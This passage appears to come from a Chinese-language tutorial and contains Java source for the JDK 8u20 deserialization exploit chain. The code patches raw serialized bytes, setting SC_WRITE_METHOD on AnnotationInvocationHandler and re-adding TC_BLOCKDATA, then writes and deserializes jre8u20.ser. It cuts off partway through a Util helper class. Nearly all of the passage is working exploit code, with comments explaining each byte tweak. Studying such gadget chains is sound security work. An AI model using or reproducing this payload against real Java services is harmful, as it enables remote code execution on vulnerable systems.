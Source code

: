 ```java
            }
        }

        //将 sun.reflect.annotation.AnnotationInvocationHandler 的 classDescFlags 由 SC_SERIALIZABLE 修改为 SC_SERIALIZABLE | SC_WRITE_METHOD
        //这一步其实不是通过理论推算出来的，是通过debug 以及查看 pwntester的 poc 发现需要这么改
        //原因是如果不设置 SC_WRITE_METHOD 标志的话 defaultDataEnd = true，导致 BeanContextSupport -> deserialize(ois, bcmListeners = new ArrayList(1))
        // -> count = ois.readInt(); 报错，无法完成整个反序列化流程
        // 没有 SC_WRITE_METHOD 标记，认为这个反序列流到此就结束了
        // 标记： 7375 6e2e 7265 666c 6563 --> sun.reflect...
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 115 && bytes[i+1] == 117 && bytes[i+2] == 110 && bytes[i+3] == 46 &&
                    bytes[i + 4] == 114 && bytes[i+5] == 101 && bytes[i+6] == 102 && bytes[i+7] == 108 ){
                System.out.println("[+] Modify sun.reflect.annotation.AnnotationInvocationHandler -> classDescFlags from SC_SERIALIZABLE to " +
                        "SC_SERIALIZABLE | SC_WRITE_METHOD");
                i = i + 58;
                bytes[i] = 3;
                break;
            }
        }

        //加回之前删除的 TC_BLOCKDATA，表明 HashSet 到此结束
        System.out.println("[+] Add TC_BLOCKDATA at end");
        bytes = Util.addAtLast(bytes, (byte) 0x78);


        FileOutputStream fous = new FileOutputStream("jre8u20.ser");
        fous.write(bytes);

        //反序列化
        FileInputStream fis = new FileInputStream("jre8u20.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();
    }
}
```

库Util：

```java
package org.example;


import java.nio.ByteBuffer;

public class Util {

    /**
     * 从 byte 数组中删除指定索引位置的元素。
     *
     * @param array 要操作的 byte 数组
     * @param index 要删除的元素索引
     * @return 删除元素后的 byte 数组
     */
    public static byte[] deleteAt(byte[] array, int index) {
        if (index < 0 || index >= array.length) {
            throw new IndexOutOfBoundsException("Index out of bounds: " + index);
        }

        byte[] result = new byte[array.length - 1];
```